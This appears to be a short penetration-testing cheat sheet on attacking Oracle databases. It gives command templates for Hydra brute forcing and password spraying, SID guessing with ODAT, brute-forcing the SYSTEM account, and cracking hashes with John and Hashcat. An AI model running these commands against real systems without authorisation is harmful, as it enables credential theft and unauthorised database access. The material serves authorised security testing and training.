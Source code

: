 ## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra oracle-sid://<target_ip> -s <target_port> -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra oracle-sid://<target_ip> -s <target_port> -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

#### Offline Hash Cracking

*   **Tool:** \[\[John the Ripper Cheat Sheet]]

    ```bash
    john --wordlist=<path/to/wordlist> <hash_file>
    ```

\


*   **Tool:** \[\[HashCat Cheat Sheet]]

    ```bash
    hashcat -m <mode> <hash_file> <path/to/wordlist>
    ```
* **Description:** Cracks dumped password hashes to gain access.

#### Oracle SID Brute Forcing

*   **Tool:** \[\[ODAT]]

    ```bash
    ./odat.py sidguesser -s <target_ip> -p 1521
    ```
* **Description:** Brute force Oracle SIDs to discover the database instance name.

#### Brute Forcing Oracle Credentials

*   **Tool:** \[\[Metasploit]], \[\[Hydra Cheat Sheet]]

    ```bash
    hydra -l SYSTEM -P /path/to/passwords.txt <target_ip> oracle-sid
    ```
* **Description:** Attempt to brute-force Oracle database credentials to gain initial access.
